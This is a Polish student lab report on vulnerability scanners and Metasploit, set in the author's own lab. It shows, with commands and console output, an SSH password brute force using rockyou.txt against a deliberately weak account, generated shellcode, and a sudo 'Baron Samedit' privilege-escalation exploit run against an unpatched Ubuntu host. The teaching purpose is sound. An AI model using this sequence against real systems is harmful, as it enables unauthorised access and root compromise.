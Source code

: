 #+TITLE: Sprawozdanie - Analiza podatności opragromwania
#+LANGUAGE: pl
#+LATEX_HEADER: \usepackage[AUTO]{babel}
#+LATEX_HEADER: \usepackage[margin=1in]{geometry}

* Skaner podatności oprogramowania
Skanery podatności oprogramowania to zautomatyzowanie narzędzia które skanują programy (aplikacjie sieciowe itp.) by wyszukać najczęsciej spotykane wektory ataku. Nazywane sa dynamicznymi gdyż głownie operują na podstawie  wykonania ataku na działająca usługe lub system. Do tego typu często używanych ataków należa m.in:
+ SQL injection
+ XSS (cross site scripting)
+ XSRF (cross site request forgery)
+ Command Injection
** Licencjowanie
  Zwykle jest to oprogramowanie wspomagane poprzez społeczeństwo używające licencji otwartego oprogramowania (apache, MIT) lub /copyleftowych/ licencji wolnego oprogramowania (GPL,BSD 3 clause) albo sa wspierane jako produkt przez firme oferujące usługi zawarte w takim skanerze. Część tych produktów ma również darmową wersję (czasami rozwijane jako /community/ używając powyższych licencji).
** Funkcjonalność
Skanery te można podzielić na takie które mają zbiór testów które przeprowadzają i takie w których użytkownik uzyskając informacji z innych źrodeł (np. enumeracji) wybiera te narzędzia które chce wykorzystać (przydatne przy ograniczaniu widoczności/wykrywalności przy pen testowaniu lub bardziej kryminalnych formach)
* Metasploit Framework
Metasploit jest jednym z bardziej zaawansowanych (i rozległych) narzędzi do pentestowania. Jest to jak w nazwie jest wymienione narzędzie typu framework, które raczej niż być typowym skanerem, jest zbiorem narzędzi do automatyzacji pentestingu. Pozwala on na dosyć skomplikowane skryptowanie oraz łatwość łączenia pojedynczych penetracji poprzez /privilage escalation/ (podniesienie uprawnien) aż do montowania modułów pozwalających na zagnieżdżenie sie w danym systemie.





** Instalacja
Moja dystrybucja systemu GNU/linux (ArchLinux) oferuje paczkę Metasploit w repozytorium. Metasploit wymaga (zależenie od dystrybucji)  konfiguracji rvm (ruby) oraz załozenia bazy danych postgres. Bardzo dobrym zasobem który ułatwi instalacje jest [[https://wiki.archlinux.org/title/Metasploit_Framework][archwiki.org]]
** Bruteforce ssh
W związku z brakami w projektach na których dobrze możnaby było pokazać moc takiego narzędzia, zostało spreparowane konto na systemie niezaktualizowanym komputerze który bedzie celem penetracji.
#+begin_src 

  #useradd msfexploit
  #passwd   #hasło zostało ustawione na password1

#+end_src

Na maszyne z metasploit pobrałem również popularny plik słownikowy rockyou.txt zawierający najbardziej popularne hasła (140MB haseł) zawierający najczęsciej pojawiające się hasła.
Zwykle atak słownikowy prowadziłoby się na pliku bazy danych z hashami haseł i salt, uzyskany w innym ataku (lokalnie), jest możliwe jednak przeprowadzenia ataku bruteforce na /żywym/ celu jednak jest to bardzo łatwe do wykrycia.

#+caption: Przykladowe listy słów z różnych wycieków bezpieczeństwa
[[./wordlist.png]]

#+begin_export latex
{\scriptsize
#+end_export
#+begin_src bash

msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting          Required  Description
   ----              ---------------          --------  -----------
   BLANK_PASSWORDS   false                    no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                        yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                    no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                    no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                    no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                     no        Skip existing credentials stored in the current database (Acc
                                                        epted: none, user, user&realm)
   PASSWORD                                   no        A specific password to authenticate with
   PASS_FILE         ~/Downloads/rockyou.txt  no        File containing passwords, one per line
   RHOSTS            servbuntu.lan            yes       The target host(s), see https://github.com/rapid7/metasploit-
                                                        framework/wiki/Using-Metasploit
   RPORT             22                       yes       The target port
   STOP_ON_SUCCESS   true                     yes       Stop guessing when a credential works for a host
   THREADS           1                        yes       The number of concurrent threads (max one per host)
   USERNAME          msfexploit               no        A specific username to authenticate as
   USERPASS_FILE                              no        File containing users and passwords separated by space, one p
                                                        air per line
   USER_AS_PASS      false                    no        Try the username as the password for all users
   USER_FILE                                  no        File containing usernames, one per line
   VERBOSE           false                    yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) >
#+end_src
#+begin_export latex
}
#+end_export

Po paru minutach metasploit znalazł hasło i stworzył /sesję/ którą mozna podać innym modułom które mogą posłużyć naprzyklad do podniesienia uprawnien.

#+begin_src bash

msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] fdd3:f3e5:50a8::23d:22 - Starting bruteforce
[+] fdd3:f3e5:50a8::23d:22 - Success: 'msfexploit:password1' 'uid=1004(msfexploit) gid=1004(msfexploit) grupy=1004(msfexploit) Linux servbuntu 5.11.0-40-generic #44~20.04.2-Ubuntu SMP Tue Oct 26 18:07:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 4 opened ([fdd3:f3e5:50a8::dd4]:35571 -> [fdd3:f3e5:50a8::23d]:22) at 2021-12-09 05:45:26 +0100
[*] Scanned 1 of 2 hosts (50% complete)
[*] 192.168.1.200:22 - Starting bruteforce
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) >

#+end_src

** Sudoedit

Następnie używając poprzednio utworzonej sesji metasploit wykona atak na stara wersje sudo na niezaktualizowanym systemie ubuntu 20.04 aby uzyskać podniesienie uprawnień (ang. /privlage escalation/) do superusera. Tutaj moglibyśmy pomyśleć że informacje o statusie aktualizacji możemy zbadać za pomocą albo enumeracji systemu np. `sudo --version` jeżeli widzimy ze system nie był aktualizaowany od danego czasu. Wybierając exploit możemy wyszukać exploit w konsoli metasploit sortując po dacie znalezienia danego exploitu lub błędu.

#+begin_src bash

    msf6 exploit(linux/local/sudo_baron_samedit) > use payload/linux/x64/exec
    msf6 payload(linux/x64/exec) > set CMD "touch /root/here.txt" #konfigurujemy "payload", ładunek ktory zostanie wykonany po naszym ataku
    CMD => touch /root/here.txt
    msf6 payload(linux/x64/exec) > generate
    # linux/x64/exec - 57 bytes
    # https://metasploit.com/
    # VERBOSE=false, PrependFork=false, PrependSetresuid=false,
    # PrependSetreuid=false, PrependSetuid=false,
    # PrependSetresgid=false, PrependSetregid=false,
    # PrependSetgid=false, PrependChrootBreak=false,
    # AppendExit=false, MeterpreterDebugLevel=0,
    # RemoteMeterpreterDebugFile=, CMD=touch /root/here.txt,
    # NullFreeVersion=false
    buf =
    "\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f" +
    "\x52\x66\x68\x2d\x63\x54\x5e\x52\xe8\x15\x00\x00\x00\x74" +
    "\x6f\x75\x63\x68\x20\x2f\x72\x6f\x6f\x74\x2f\x68\x65\x72" +
    "\x65\x2e\x74\x78\x74\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f" +
    "\x05"

#+end_src
Metasploit wygenerował shellcode który po wykonaniu exploitu sudoedit zostanie wstrzykniety.


#+begin_src bash

    msf6 payload(linux/x64/exec) > use exploit/linux/local/sudo_baron_samedit
    msf6 exploit(linux/local/sudo_baron_samedit) > set payload linux/x64/exec
    payload => linux/x64/exec
    msf6 exploit(linux/local/sudo_baron_samedit) > sessions

    Active sessions
    ===============

    Id  Name  Type         Information                          Connection
    --  ----  ----         -----------                          ----------
    1         shell linux  SSH msfexploit:password1 ([fdd3:f3e  [fdd3:f3e5:50a8::dd4]:38703 -> [fdd3
                           5:50a8::23d]:22)                     :f3e5:50a8::23d]:22 (fdd3:f3e5:50a8:
                                                                :23d)
    msf6 exploit(linux/local/sudo_baron_samedit) > set SESSION 1
#+end_src

Metasploit używa konceptu sesji by utrzymywać połączenie z atakowanym hostem i jako interfejs pomiedzy exploitami

#+begin_src bash

msf6 exploit(linux/local/sudo_baron_samedit) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture:
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
[*] Writing '/tmp/sTF7azr5C8.py' (7734 bytes) ...
[*] Writing '/tmp/libnss_7A/9Utj.so.2' (439 bytes) ...
[*] Exploit completed, but no session was created.

#+end_src

Następnie możemy sprawdzić czy atak nam sie udał na lokalnym hoscie

#+begin_src bash
root@servbuntu:~# ls
here.txt  scull1  snap
#+end_src

* Podsumowanie
Metasploit Framework jest narzędziem do głownie pentestingu i nie oferuje szybkich i łatwych analiz prostych błedów i skupia sie na przybliżeniu narzędzi pentestingu do użytkownika. Oferuje dużą baze exploitów i typowych błedów konfiguracji, jednak wymaga od użytkownika znajomości narzędzi oraz metod enumeracji część z których jest zawarta we wszeklich funkcjach autodetekcji a cześć w oddzielnym oprogramowaniu (np. gobuster, nmap) które zwykle jest zaopatrywanie przez metapackages albo zintegorwane w systemie np. Kali - dystrybucja GNU/linux która domyślnie zaopatrza dużą cześc narzędzi, słowników które mogą być przydatne w enumeracji oraz pentestingu.
